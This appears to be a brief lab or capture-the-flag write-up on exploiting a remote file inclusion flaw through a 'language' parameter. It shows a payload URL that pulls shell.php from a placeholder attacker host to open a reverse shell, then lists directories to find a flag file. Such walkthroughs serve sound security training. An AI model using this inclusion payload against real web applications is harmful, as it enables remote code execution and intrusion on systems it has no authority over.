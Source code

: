 # Question
---
![](Pasted%20image%2020250218151542.png)

Let's begin by verifying if the target is vulnerable to `RFI`:

```
index.php?language=http://127.0.0.1/index.php
```


![](Pasted%20image%2020250218151738.png)

As seen, the page got included, this means this site is indeed vulnerable to `RFI`, let's try sending a reverse shell:


```
http://IP:PORTindex.php?language=http://IP:PORT/shell.php
```

Make sure to have the listener ready, once we execute the command, we get the following:

![](Pasted%20image%2020250218152111.png)

We got a reverse shell, way easier to move around rather than a webshell, let's look for our flag:

```
$ ls /
bin
boot
dev
etc
exercise
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

We found a `/exercise` directory, inside of this directory, we find `flag.txt`:

```
$ ls /exercise
flag.txt
```
